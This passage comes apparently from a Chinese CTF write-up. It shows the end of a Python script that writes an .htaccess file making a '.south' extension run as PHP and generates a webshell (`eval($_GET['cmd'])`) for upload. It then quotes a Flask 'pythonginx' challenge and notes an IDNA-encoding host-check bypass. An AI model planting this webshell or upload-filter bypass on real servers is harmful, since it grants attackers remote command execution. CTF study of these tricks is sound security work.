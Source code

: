 ```python
    htaccess.write(b'AddType application/x-httpd-php .south\n')
    htaccess.write(b'php_value zend.multibyte 1\n')
    htaccess.write(b'php_value zend.detect_unicode 1\n')
    htaccess.write(b'php_value display_errors 1\n')

    htaccess.close()

generate_htacess()
generate_php_file("webshell.south", "<?php eval($_GET['cmd']); die(); ?>")
```

生成的文件上传就好了。



# pythonginx

给了代码

```python
@app.route('/getUrl', methods=['GET', 'POST'])
def getUrl():
    url = request.args.get("url")
    host = parse.urlparse(url).hostname
    if host == 'suctf.cc':
        return "我扌 your problem? 111"
    parts = list(urlsplit(url))
    host = parts[1]
    if host == 'suctf.cc':
        return "我扌 your problem? 222 " + host
    newhost = []
    for h in host.split('.'):
        newhost.append(h.encode('idna').decode('utf-8'))
    parts[1] = '.'.join(newhost)
    #去掉 url 中的空格
    finalUrl = urlunsplit(parts).split(' ')[0]
    host = parse.urlparse(finalUrl).hostname
    if host == 'suctf.cc':
        return urllib.request.urlopen(finalUrl).read()
    else:
        return "我扌 your problem? 333"
```

url中如果存在`suctf.cc`，那这个就会被ban掉，然后问题代码在

```python
    newhost = []
    for h in host.split('.'):
        newhost.append(h.encode('idna').decode('utf-8'))
    parts[1] = '.'.join(newhost)
```

字符编码问题，这个trick在2019年的black-hat上被提出来
